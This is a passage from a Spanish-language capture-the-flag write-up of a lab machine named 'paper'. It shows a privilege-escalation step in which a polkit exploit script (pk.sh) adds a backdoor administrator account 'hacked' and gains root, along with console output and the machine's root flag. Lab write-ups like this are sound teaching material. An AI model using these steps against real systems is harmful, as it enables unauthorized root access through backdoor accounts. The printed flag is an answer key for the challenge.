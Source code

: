 Lo primero sería comprobar si tenemos algún permiso a nivel de sudo (nos pedirá la contraseña, la cual conocemos):

```console
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ ls -la $(which pkexec)
32 -rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
[dwight@paper ~]$ Pues ya estaría...no? xDD
```

Pero aun así, no tenemos permisos para ejecutar sudo.
De paso aprovecho para ver si en el sistema existe el SUID **`pkexec`** con el que podríamos escalar privilegios fácilmente, y efectivamente existe.
Pero nosotros somos de la vieja escuela y aquí hacemos las cosas bien, ¿estamos?. Sigamos...

Vemos que existe un archivo **`pk.sh`** y si lo analizamos podemos ver que crea un usuario **`hacked`** con contraseña **`password`** y permisos de administrador.
También comprueba la versión de **`polkit`** y al final del script nos indica que podemos ejecutar **`su - hacked`** y **`sudo su`** para ganar acceso como root.

Lo ejecutamos y esperamos...si tarda mucho y no hace nada, lo ejecutamos de nuevo. En mi caso, por alguna extraña razón tuve que ejecutarlo tres veces.

```console
[dwight@paper ~]$ ./pk.sh
[*] Vulnerable version of polkit found
[*] Determining dbus-send timing
[*] Attempting to create account
[*] New user hacked created with uid of 1005
[*] Adding password to /etc/shadow and enabling user
[*] Exploit complete!

[*] Run 'su - hacked', followed by 'sudo su' to gain root access
[dwight@paper ~]$ su - hacked
Password: password
[hacked@paper ~]$ sudo su
[sudo] password for hacked: password
[root@paper hacked]# whoami
root
[root@paper hacked]# cd /root
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt
486726908b376d042dfb225f0ed02b6c
[root@paper ~]# 
```
